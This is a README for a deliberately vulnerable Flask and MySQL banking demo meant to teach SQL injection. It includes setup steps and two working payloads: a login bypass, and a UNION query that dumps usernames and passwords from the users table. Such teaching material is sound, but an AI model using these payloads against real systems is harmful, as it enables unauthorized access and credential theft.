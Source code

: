 # broke-bank
SQL injection demonstraction built with Flask and MySQL.

# Setup

## 1. Install MySQL
https://dev.mysql.com/downloads/installer/

## 2. Clone repository
```shell
git clone https://github.com/anilmawji/broke-bank.git; cd broke-bank
```

## 3. Create and activate virtual environment (optional, recommended)
   
macOS/Linux:
```shell
python -m venv .venv && source .venv/Scripts/activate
```
Windows:
```shell
python -m venv .venv && .venv\Scripts\activate
```

## 4. Install dependencies
```shell
pip install -r requirements.txt
```

## 5. Create .env file for environment variables (place in /broke-bank/)
Make sure to replace `myusername` and `mypassword` with your MySQL credentials.
```env
FLASK_ENV=development
FLASK_APP=main.py
MYSQL_USER=myusername
MYSQL_PASSWORD=mypassword
```

## 6. Start server (local deployment)
```shell
flask run
```

# SQL Injection Examples

User login bypass (make sure to include the space at the end!)
```sql
a' or 1=1 -- 
```
![image](https://github.com/user-attachments/assets/5fdf6609-cd84-4420-9c48-b4b0744d09fa)

Transaction history search bar - SQL version and user info dump
```sql
3' union select null, user_id, version(), username, user_password from users;
```
![image](https://github.com/user-attachments/assets/4fc1abf2-d018-4dde-b240-09147835e81a)

